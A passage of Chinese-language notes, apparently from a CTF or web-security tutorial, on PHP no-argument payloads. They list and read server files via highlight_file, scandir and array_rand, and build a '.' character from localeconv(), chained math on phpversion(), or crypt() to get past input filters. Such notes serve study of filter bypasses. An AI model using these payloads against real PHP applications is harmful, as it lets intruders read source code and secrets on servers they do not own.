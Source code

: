 ### payload\_5-scandir()

读取文件

读文件有好多操作，

```bash
当前目录：highlight_file(array_rand(array_flip(scandir(getcwd()))));
上级目录文件：highlight_file(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));
以上两个都是随机获取的其实，看脸。
```

可以配合 数组的指针，倒序，等各种方式找到我们的文件。

-   **getcwd()**：取得当前工作目录，成功则返回当前工作目录，失败返回 **`FALSE`**。
-   **dirname()**：返回路径中的目录部分，返回 path 的父目录。如果在 `path` 中没有斜线，则返回一个点（’*.*‘），表示当前目录。否则返回的是把 `path` 中结尾的 `/component`（最后一个斜线以及后面部分）去掉之后的字符串 (也就是上级目录的文件路径)。
-   **chdir()**：改变目录，成功时返回 **`TRUE`**，或者在失败时返回 **`FALSE`**。
-   **scandir()**：列出指定路径中的文件和目录。成功则返回包含有文件名的数组，如果失败则返回 **`FALSE`**。如果 `directory` 不是个目录，则返回布尔值 **`FALSE`** 并生成一条 **`E_WARNING`** 级的错误。
-   **array\_flip()**：交换数组中的键和值，成功时返回交换后的数组，如果失败返回 **`NULL`**。
-   **array\_rand()**：从数组中随机取出一个或多个单元，如果只取出一个 (默认为 1)，**array\_rand()** 返回随机单元的键名。否则就返回包含随机键名的数组。完成后，就可以根据随机的键获取数组的随机值。

**array\_flip()**和**array\_rand()**配合使用可随机返回当前目录下的文件名

**dirname(chdir(dirname()))**配合切换文件路径

#### `.`

##### **current(localeconv())**

-   **localeconv()**：返回一包含本地数字及货币格式信息的数组。而数组第一项就是 `.`

##### **phpversion()**

-   `phpversion()`返回 php 版本，如`7.3.5`
-   `floor(phpversion())`返回`7`
-   `sqrt(floor(phpversion()))`返回`2.6457513110646`
-   `tan(floor(sqrt(floor(phpversion()))))`返回`-2.1850398632615`
-   `cosh(tan(floor(sqrt(floor(phpversion())))))`返回`4.5017381103491`
-   `sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`返回`45.081318677156`
-   `ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`返回`46`
-   `chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`返回`.`
-   `var_dump(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))`扫描当前目录
-   `next(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))`返回`..`

**floor()**：舍去法取整，**sqrt()**：平方根，**tan()**：正切值，**cosh()**：双曲余弦，**sinh()**：双曲正弦，**ceil()**：进一法取整

##### **crypt()**

```bash
chr(ord(hebrevc(crypt(phpversion()))))`返回`.
```

-   `hebrevc(crypt(arg))`可以随机生成一个 hash 值 第一个字符随机是 $(大概率) 或者 .(小概率) 然后通过 ord chr 只取第一个字符

**crypt()**：单向字符串散列，返回散列后的字符串或一个少于 13 字符的字符串，从而保证在失败时与盐值区分开来。
